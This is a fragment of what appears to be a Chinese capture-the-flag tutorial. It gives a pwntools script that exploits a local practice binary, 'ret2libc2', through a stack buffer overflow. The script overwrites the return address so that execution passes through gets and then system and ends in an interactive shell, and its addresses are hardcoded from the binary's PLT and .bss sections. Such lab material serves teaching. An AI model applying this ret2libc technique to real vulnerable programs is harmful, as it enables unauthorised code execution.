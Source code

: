 [![](assets/1701612384-ac8fc4b9e7c627e7a26ff0f8c249d26f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204327-8b7afd26-167a-1.png)

```plain
from pwn import *

io = process("./ret2libc2")
elf =ELF("./ret2libc2")
#sys_plt_addr = elf.plt["system"]
#print(sys_plt_addr)
#0x8048490
sys_plt_addr = 0x8048490
#buf2_addr = elf.symbols["buf2"]  利用elf.symbols[]获取bss段地址
#print(buf2_addr)
#0x804a080
buf2_addr=0x804a080
#gets_addr=elf.plt["gets"]
#print(gets_addr)
#0x8048460
gets_addr=0x8048460

payload=b'A'*112+p32(gets_addr)+p32(sys_plt_addr)+p32(buf2_addr)+p32(buf2_addr)

io.sendline(payload)
io.interactive()
```

其实用pwndgb能更好的看plt地址

[![](assets/1701612384-776eda41bdae6cd218cd958a3032a0b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204332-8e7cf4d4-167a-1.png)
